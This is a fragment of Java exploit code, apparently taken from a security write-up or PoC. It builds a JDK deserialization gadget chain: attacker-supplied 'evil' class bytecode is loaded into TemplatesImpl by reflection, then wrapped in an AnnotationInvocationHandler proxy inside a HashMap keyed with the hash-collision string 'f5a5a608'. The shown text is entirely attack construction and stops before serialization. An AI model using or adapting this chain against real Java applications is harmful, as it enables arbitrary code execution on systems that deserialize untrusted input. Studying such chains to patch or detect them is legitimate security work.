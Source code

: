 ```java
        //InputStream is = Aur0ra.class.getResourceAsStream("Aur0ra.class");

        //read evil bytecode-2
        FileInputStream is = new FileInputStream("D:\\Projects\\JAVA\\jdkSer\\target\\test-classes\\Aur0ra.class");
        
        int available = is.available();
        byte[] bytes = new byte[available];
        is.read(bytes,0,available);

        //construct TemplatesImpl
        TemplatesImpl templates = new TemplatesImpl();

        Class<? extends TemplatesImpl> clazz = templates.getClass();

        Field bytecodes = clazz.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates,new byte[][]{bytes});

        Field name = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"Aur0ra");

        Class<?> annoClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = annoClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object anno = declaredConstructor.newInstance(Annotation.class,new HashMap());

        //set anno.type
        setValue(anno,"type",TemplatesImpl.class);

        unsetFinal(anno,"memberMethods");
        setValue(anno,"memberMethods",new Method[]{clazz.getDeclaredMethod("getOutputProperties")});

        Map proxy = (Map) Proxy.newProxyInstance(Gadget.class.getClassLoader(), new Class[]{Map.class}, (InvocationHandler) anno);

        HashMap map = new HashMap();
        map.put("f5a5a608", templates);

        unsetFinal(anno,"memberValues");
        setValue(anno,"memberValues",map);
        
        HashMap hashMap = new HashMap();
        hashMap.put(templates,templates);
        hashMap.put(proxy,123);

    }

    public static void setValue(Object obj,String filed,Object value){
        try {
            Field declaredField = obj.getClass().getDeclaredField(filed);

            declaredField.setAccessible(true);

            declaredField.set(obj,value);
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
```